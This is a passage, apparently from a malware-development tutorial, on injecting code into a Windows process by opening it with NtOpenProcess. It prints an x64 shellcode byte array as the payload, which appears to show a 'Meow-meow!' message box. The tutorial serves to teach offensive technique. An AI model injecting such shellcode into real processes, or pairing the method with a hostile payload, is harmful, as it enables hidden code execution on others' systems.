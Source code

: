 ![code injection 5](./images/32/2021-12-15_18-12.png){width="80%"}    

As you can see for opening process I used Native API [NtOpenProcess function](https://cocomelonc.github.io/tutorial/2021/12/11/malware-injection-11.html):    

![code injection 5.1](./images/32/2021-12-15_18-20.png){width="80%"}    

Then, write our payload:

```cpp
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
